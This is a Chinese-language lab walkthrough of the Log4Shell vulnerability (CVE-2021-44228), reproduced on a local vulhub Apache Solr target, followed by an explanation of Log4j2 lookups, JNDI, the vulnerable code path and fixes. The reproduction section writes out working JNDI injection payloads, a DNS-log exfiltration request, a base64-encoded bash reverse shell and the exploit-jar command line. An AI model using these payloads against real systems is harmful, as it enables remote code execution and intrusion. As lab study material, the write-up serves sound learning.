


# CVE-2021-44228：Apache Log4j2 lookup JNDI 注入漏洞

## 漏洞复现

1. 环境搭建

```python
cd /vulhub/log4j/CVE-2021-44228
sudo docker-compose up -d
# 访问网站
http://127.0.0.1:8983/solr/#/
```

        

2. 申请一个dns域名，[点击](http://www.dnslog.cn/)，得到`lpjzt8.dnslog.cn`       

     

3. 请求：`http://靶场IP:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.你申请的DNS域名}`，也就是：`http://127.0.0.1:8983/solr/admin/cores?action=${jndi:ldap://${sys:java.version}.lpjzt8.dnslog.cn}`

        

也可以用burpsuit进行发包

```html
GET /solr/admin/cores?action=${jndi:ldap://${sys:java.version}.0j1wnq.dnslog.cn} HTTP/1.1
Host: 192.168.56.103:8983
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/95.0.4638.69 Safari/537.36
Connection: close
```

没反应

4. 刷新一下`refresh record`，发现返回了java版本           

         

5. 开启监听端口：`nc -lvvp 19999`

6. (java需要提前安装)下载漏洞利用的jar文件 JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar
```bash
git clone https://github.com/bkfish/Apache-Log4j-Learning.git
```
7. bash反弹命令：`bash -i >& /dev/tcp/192.168.56.103/19999 0>&1`，然后进行base64编码：`YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMy8xOTk5OSAwPiYx`
8. 执行Exp
```bash
cd Apache-Log4j-Learning/tools
java -jar JNDI-Injection-Exploit-1.0-SNAPSHOT-all.jar -C "bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcC8xOTIuMTY4LjU2LjEwMy8xOTk5OSAwPiYx}|{base64,-d}|{bash,-i}" -A "192.168.56.103"

```
          

9. 构造payload
```bash
http://192.168.56.103:8983/solr/admin/cores?action=${jndi:ldap://192.168.56.103:1389/u0ccwz}
```
10. 拿到shell                     

     

## Apache Log4j2 lookup JNDI 注入漏洞

Log4j2是Java的日志组件，攻击者在可以控制日志内容的情况下，通过传入类似于`${jndi:ldap://evil.com/example}`的lookup用于进行JNDI注入，执行任意代码           

**环境复现**：使用的是Apache Solr 8.11.0

### Log4j2 Lookup

Log4j2的Lookup主要功能是通过**引用一些变量，往日志中添加动态的值**。这些变量可以是外部环境变量，也可以是MDC中的变量，还可以是日志上下文数据等。

```java
import org.apache.logging.log4j.LogManager;
import org.apache.logging.log4j.Logger;
import org.apache.logging.log4j.ThreadContext;

public class Log4j2Lookup {
    public static final Logger LOGGER = LogManager.getLogger(Log4j2RCEPoc.class);

    public static void main(String[] args) {
        ThreadContext.put("userId", "test");
        LOGGER.error("userId: ${ctx:userId}");
    }
}
10:21:19.618 [main] ERROR Log4j2RCEPoc - userId: test
```

通过在日志字符串中加入`${ctx:userId}`，Log4j2在输出日志时，会自动在Log4j2的`ThreadContext`中查找

并引用`userId`变量。格式类似"${type:var}"，即可以实现对变量var的引用。type可以是如下值：

- ctx：允许程序将数据存储在 Log4j `ThreadContext`Map 中，然后在日志输出过程中，查找其中的值。
- env：允许系统在全局文件（如 /etc/profile）或应用程序的启动脚本中配置环境变量，然后在日志输出过程中，查找这些变量。例如：`${env:USER}`。
- java：允许查找Java环境配置信息。例如：`${java:version}`。
- jndi：允许通过 JNDI 检索变量。

其中和本次漏洞相关的便是jndi，例如：`${jndi:rmi//127.0.0.1:1099/a}`，表示通过JNDI Lookup功能，获取`rmi//127.0.0.1:1099/a`上的变量内容。

### JNDI

> JNDI（Java Naming and Directory  Interface，Java命名和目录接口），是Java提供的一个目录服务应用程序接口（API），它提供一个目录系统，并将服务名称与对象关联起来，从而使得开发人员在开发过程中可以使用名称来访问对象(这就意味着通过这个接口可以操作目录服务和域名服务) 。**(可以类比理解NDS的功能)**

JCDI可以访问的现有的目录以及服务有：JDBC（获取数据库）、**LDAP（获取资源）、RMI（获取代码）**、DNS、NIS、CORBA              

RMI：remote method invoke，远程方法调用。客服端可以远程调用服务端上的方法                   

`${jndi:rmi://127.0.0.1:12345/obj}`：rmi就是服务类别，127.0.0.1:12345/obj表示所在的地方，会请求127.0.0.1:12345/obj这个资源，这个资源可以是一个函数（class）

            

- 代码分析
  	1. LOGGER.error调用`MessagePatternConverter.format()`对内容进行解析和格式化
  	1. `MessagePatternConverter.format()`遇到`${`子串时，调用`StrSubstitutor`进行进一步解析
  	1. `StrSubstitutor.resolveVariable()`提取`${}`中间的代码，传递给`Interpolator.lookup()`
  	1. `Interpolator.lookup()`对根据`prefix`命令进行进一步分类，调取对应的Lookup。例如`${jndi:ldap://192.168.56.103:1389/u0ccwz}`调用的实现函数为`JndiLookup.lookup()`
  	1. `JndiLookup.lookup()`方法调用`JndiManager.lookup()`方法，获取JNDI对象后，调用该对象上的`toString()`方法，最终返回该字符串。
  	1. `                        JndiManager.lookup()`较为简单，直接委托给`InitialContext.lookup()`方法

### 修复

- 更新log4j至 rc2([https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2)](https://github.com/apache/logging-log4j2/releases/tag/log4j-2.15.0-rc2%29)
- 配置防火墙策略，禁止主动连接外网设备
- 升级受影响的应用及组件
- 过滤相关的关键词，比如${jndi://*}

### 补充知识

- dnslog：
  - DNSlog就是存储在DNS服务器上的域名信息，它记录着用户对域名www.baidu.com等的访问信息，类似日志文件
  - 主要用于SQL盲注入、无回显的XSS、无回显的命令注入、无回显的SSRF和Blind XXE

## 参考资料

- [Log4j2远程代码执行漏洞复现(cve-2021-44228)](https://blog.csdn.net/weixin_47179815/article/details/125654828)
- [如何通过vulhub靶场复现log4j2漏洞](https://blog.csdn.net/weixin_46683781/article/details/122226317)
- [vulhub CVE-2021-44228](https://github.com/vulhub/vulhub/blob/master/log4j/CVE-2021-44228)

- [Log4j2的JNDI注入漏洞（CVE-2021-44228）原理分析与思考](https://www.freebuf.com/vuls/316143.html)